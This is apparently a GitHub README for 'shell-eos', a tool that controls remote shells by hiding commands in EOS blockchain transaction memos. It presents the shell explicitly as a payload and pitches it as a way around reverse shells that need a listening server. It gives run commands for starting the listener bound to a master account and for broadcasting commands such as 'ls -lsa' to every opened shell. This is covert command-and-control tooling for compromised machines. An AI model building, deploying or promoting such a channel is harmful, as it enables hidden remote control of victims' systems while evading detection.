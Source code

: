 # shell-eos
Decentralized shell over eos blockchain to send commands by eos blockchain to the shells.

Avoid reverse shell usage , who requires online server listening for connections.

## Run the shell as a payload

Run the command to start the daemond listening in the blockchain address. When receives a new transacion the shell search the command in the memo of transaction to execute it.

`python3 payloads/shell-eos.py eosaccountname accountmaster`

*account master if who the bot just obey

Send to a EOS address command line to execute orders

## Execute commands in each opened shell

`python3 payloads/send-eos.py eosaccountname` "ls -lsa"

## Publish datasets commands in each opened shell

`python3 payloads/send-eos.py eosaccountname` "data" "separator"

## Compile

`./compile.sh`

